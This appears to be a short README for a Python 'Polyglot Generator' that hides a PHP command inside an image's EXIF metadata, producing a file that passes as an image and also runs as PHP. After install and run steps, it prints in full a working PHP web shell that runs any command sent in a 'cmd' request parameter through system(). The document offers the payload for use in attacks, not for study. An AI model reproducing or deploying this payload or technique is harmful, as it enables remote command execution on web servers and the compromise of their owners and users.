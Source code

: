 # Polyglot-Generator
Polyglot Generator written in python (image file + php command)
* The PHP command is stored within the image’s EXIF metadata.

# Requierments
- Python 3
- PIL module (PIP)
- Image file
- php reverse shell command

# Set Up
## Install PIL module
```$ pip install Pillow piexif```

## Run the file
```$ python3 polyglotGenerator.py```

## Example of the PHP reverse shell command that can used
```$ <?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; } __HALT_COMPILER();?>```


